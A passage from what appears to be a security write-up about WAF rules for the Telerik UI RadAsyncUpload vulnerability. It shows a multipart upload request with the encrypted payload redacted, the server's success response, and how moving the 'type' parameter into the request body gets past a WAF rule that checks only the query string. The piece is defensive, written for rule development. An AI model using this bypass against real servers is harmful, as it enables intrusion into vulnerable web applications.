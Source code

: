 ATTu5i4R+ViN\[Encrypted rauPostData Payload in base64\]AmUFAlzLUg==  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="file"; filename="blob"  
Content-Type: application/octet-stream  
​  
Test\_Test  
\-----------------------------62616f37756f2f  
Content-Disposition: form-da\[Encrypted rauPostData Payload in base64\]ta; name="fileName"  
​  
RAU\_crypto.bypass  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="type"  
​  
rau  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="contentType"  
​  
text/html  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="lastModifiedDate"  
​  
2019-01-02T03:04:05.067Z  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="metadata"  
​  
{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":1,"UploadID":"test\_12421498329494.txt"}  
\-----------------------------62616f37756f2f--

Response:

HTTP/1.1 200 OK  
Cache-Control: private  
Content-Type: text/html; charset=utf-8  
Date: Thu, 07 May 2020 14:29:31 GMT  
Content-Length: 666  
Connection: close  
​  
{"fileInfo":{"FileName":"RAU\_crypto.bypass","ContentType":"text/html","ContentLength":18,"DateJson":"2019-01-02T03:04:05.067Z","Index":0},"metaData":"\[Base64 Metadata\]" }  
​

_It works!_

Telerik UI accepts the "_type_" parameter also as a body parameter of the "_multipart/form-data_" file upload voiding the efficacy of the _WAF_ rule that performs its checks on the URL query string parameters of the request.

The discovery of this behavior required the security engineers of the client to change the approach of the rule development: in order to block this vulnerability it was not enough to check the contents of the query string but it was necessary to perform checks on the body of the POST request as well.

**\- 5th WAF Rule: RegEx Woes**
